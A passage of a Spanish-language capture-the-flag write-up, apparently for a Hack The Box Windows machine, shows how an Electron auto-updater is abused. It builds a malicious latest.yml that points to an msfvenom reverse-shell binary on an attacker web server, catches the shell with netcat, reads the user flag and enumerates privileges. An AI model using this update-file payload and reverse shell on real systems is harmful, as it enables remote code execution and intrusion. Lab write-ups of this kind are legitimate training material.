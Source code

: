 En este punto si que hay que añadir el hash **sha512** del binario creado ya que este comprobará si efectivamente pertenece al binario que está llamando. No hace falta pasarlo a base64 como indican en el blog:

```bash
> sha512sum r\'everse.exe | cut -f 1 -d " " 
6b9f240c964ceb668e139e44529ea07ffbde1c4995be5ca6c30112f7598ecf7b8b7ba12ea2225760b06660a26da0f3fdee060035d6f659c97833192dc805d31a
```

El archivo **latest.yml** quedará de la siguiente forma:

```bash
 > cat -p latest.yml 
version: 1.2.3
path: <http://10.10.14.14/r'everse.exe>
sha512: 6b9f240c964ceb668e139e44529ea07ffbde1c4995be5ca6c30112f7598ecf7b8b7ba12ea2225760b06660a26da0f3fdee060035d6f659c97833192dc805d31a
```

Dejamos **netcat** a la escucha en el puerto indicado en el binario creado con **msfvenom**, levantamos nuestro servidor web con python para compartir el binario y copiamos el archivo l**atest.yml** al directorio Client elegido.

Esperamos la petición GET:

```powershell
> rlwrap nc -lvnp 443 
Listening on 0.0.0.0 443
Connection received on 10.129.173.50 58028
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
atom\jason
```

### User Flag

Una vez hemos obtenido shell con privilegios de usuario **Jason**, pasamos a mostrar la flag **user.txt**:

```powershell
C:\Users\jason\Desktop> type user.txt
33931a61b700d611f8cc3c3da55582c4
```

Enumeramos permisos de usuario y privilegios:

```powershell
C:\WINDOWS\system32> whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
atom\\jason S-1-5-21-1199094703-3580107816-3092147818-1002

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```